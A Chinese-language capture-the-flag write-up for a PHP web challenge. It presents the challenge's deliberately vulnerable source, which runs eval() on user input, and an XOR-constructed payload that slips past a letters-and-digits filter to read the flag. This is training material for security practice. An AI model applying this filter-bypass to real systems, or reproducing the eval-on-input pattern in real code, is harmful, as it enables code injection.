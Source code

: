 # Web 2 OH NO!

## 题目描述

不是，什么玩意儿？

## 题目地址

[点我](http://123.249.92.229/2/2.php)

## 题目附件

[点我](http://123.249.92.229/2/gen.py)

## 考察点

php 代码审计

## 思路

`gen.py` 给了充分的提示和解题方式。访问 [网址](http://123.249.92.229/2/2.php?input=(%22]%22^%22;%22).(%22@%22^%22,%22).(%22_%22^%22%3E%22).(%22%3C%22^%22[%22)) 即可得到 flag。

对应的 payload 为 `?input=("]"^";").("@"^",").("_"^">").("<"^"[")`。

即用异或运算来绕过禁止使用字母与数字的过滤。

去混淆与无效代码后的代码为：

```php
<?php
include 'flag2.php';
highlight_file(__FILE__);

extract($_GET);

$input = $_GET['input'] ?? '';

if (!isset($input)) {
    die("N0 hacking");
}

if (preg_match('/[a-zA-Z0-9]/', $input)) {
    die("No hacking");
}

if (strlen($input) > 50) {
    die("No hack1ng");
}

// input 中除了 ^()." 这几个字符能出现多次外，其他字符只能出现一次
if (!preg_match('/^(?:[^()."]|[()."])*$/', $input) || preg_match('/(.)(?=.*\1)/', str_replace(['^', '(', ')', '.', '"'], '', $input))) {
    die("No hacking");
}

// 使用 eval() 解析并执行表达式
try {
    $parsed_value = eval("return $input;");
    // echo $parsed_value;
} catch (ParseError $e) {
    die("Invalid input");
}

// 检查计算出的变量名是否存在，防止未定义变量错误
if (!isset($$parsed_value)) {
    die("Variable n0t set");
}

// 输出变量值
echo $$parsed_value;
```